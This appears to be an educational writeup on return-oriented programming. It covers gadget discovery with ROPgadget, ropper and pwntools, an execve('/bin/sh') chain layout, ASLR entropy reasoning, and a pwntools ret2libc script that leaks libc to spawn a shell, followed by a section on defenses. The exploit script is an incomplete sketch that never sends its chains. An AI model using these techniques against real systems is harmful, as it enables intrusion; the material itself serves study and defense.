

## Abstract

Return-oriented programming (ROP) allows code execution without injecting new code by chaining together existing instruction sequences ("gadgets") ending in `ret`. This writeup covers gadget discovery, chain construction strategy, and uses entropy analysis to reason about chain reliability under Address Space Layout Randomization.

## Introduction

Modern exploit mitigations — NX/DEP, stack canaries, ASLR — make classical shellcode injection largely obsolete. ROP bypasses NX by reusing existing executable code. When combined with an info leak to defeat ASLR, ROP chains are the dominant technique for exploitation of memory corruption on hardened targets.

The core insight: a `ret` instruction pops a value off the stack and jumps to it. Control the stack → control execution.

## Gadget Taxonomy

A **gadget** is a sequence of instructions ending in `ret` (or `ret N`). Useful gadget classes:

| Class | Example | Purpose |
|-------|---------|---------|
| Register control | `pop rdi; ret` | Set function argument |
| Memory write | `mov [rax], rbx; ret` | Write arbitrary memory |
| Memory read | `mov rax, [rbx]; ret` | Read arbitrary memory |
| Arithmetic | `add rax, 1; ret` | Adjust values |
| Syscall | `syscall; ret` | Direct kernel call |
| Stack pivot | `xchg rsp, rax; ret` | Move stack to controlled region |

## Gadget Discovery

```bash
# ROPgadget — comprehensive, slow on large binaries
ROPgadget --binary ./target --rop --depth 5

# ropper — faster, good filtering
ropper -f ./target --search "pop rdi"

# pwntools automated search
python3 -c "
from pwn import *
elf = ELF('./target')
rop = ROP(elf)
print(hex(rop.find_gadget(['pop rdi', 'ret'])[0]))
"
```

## Chain Construction

The execution flow of a typical `execve("/bin/sh", NULL, NULL)` ROP chain on x86-64 Linux:



The chain as a memory layout:

```
[rbp+0x00]  0xdeadbeef         ← overwrites saved rbp
[rbp+0x08]  pop_rdi_ret        ← first gadget
[rbp+0x10]  binsh_addr         ← rdi = "/bin/sh"
[rbp+0x18]  pop_rsi_ret
[rbp+0x20]  0x0000000000000000 ← rsi = NULL
[rbp+0x28]  pop_rdx_ret
[rbp+0x30]  0x0000000000000000 ← rdx = NULL
[rbp+0x38]  pop_rax_ret
[rbp+0x40]  0x000000000000003b ← rax = 59
[rbp+0x48]  syscall_ret
```

## Entropy Analysis Under ASLR

Let $G$ be the set of gadgets in a binary loaded at base address $B$. Under ASLR, $B$ is randomized with entropy $H$ bits. On Linux x86-64:

$$H_{\text{lib}} = \log_2(2^{28}) = 28 \text{ bits}$$

For a ROP chain with $n$ gadgets at offsets $\delta_1, \delta_2, \ldots, \delta_n$ from $B$:

$$\text{addr}(g_i) = B + \delta_i$$

Since all offsets are relative to the same base $B$, **a single leak of any gadget address reveals the entire chain**. This is why one info leak is sufficient to defeat ASLR for intra-binary gadgets.

For chains spanning multiple libraries, the probability of success with a single guess of all bases is:

$$P(\text{success}) = \prod_{j=1}^{k} 2^{-H_j}$$

where $k$ is the number of distinct libraries and $H_j$ is the entropy of each base.


**Key insight:** In practice, you only need to leak *one* address per shared object. All other gadgets in that object can be computed from the single leaked base.


## Practical Example: ret2libc

The classic `ret2libc` technique avoids needing gadgets in the main binary:

```python
from pwn import *

p = process('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# Stage 1: leak libc base via puts(puts@got)
rop = ROP(ELF('./vuln'))
rop.puts(ELF('./vuln').got['puts'])
rop.main()   # loop back for stage 2

# Receive leak, compute base
leak = u64(p.recvuntil(b'\n').strip().ljust(8, b'\x00'))
libc.address = leak - libc.sym['puts']
log.info(f"libc base: {hex(libc.address)}")

# Stage 2: system("/bin/sh")
rop2 = ROP(libc)
rop2.system(next(libc.search(b'/bin/sh\x00')))
```

## Limitations and Defenses

- **Control Flow Integrity (CFI)**: Restricts valid `ret` targets; breaks arbitrary ROP
- **Shadow Stack (CET)**: Hardware-enforced return address integrity (Intel Tiger Lake+)
- **ASLR + PIE**: Requires info leak — doesn't prevent ROP, raises the bar


Retpoline patches (Spectre mitigations) replace some indirect jumps with ROP-like patterns, which ironically *increases* gadget availability in the kernel.


## Conclusion

ROP remains the dominant exploitation primitive for hardened targets. The math shows that ASLR's entropy is only meaningful when there is no info leak — an increasingly difficult property to guarantee in complex, long-running services.

## References

- Shacham, H. (2007). "The Geometry of Innocent Flesh on the Bone: Return-into-libc without Function Calls." ACM CCS.
- Bittau et al. (2014). "Hacking Blind." IEEE S&P.
- pwntools documentation: https://docs.pwntools.com/en/stable/rop/rop.html
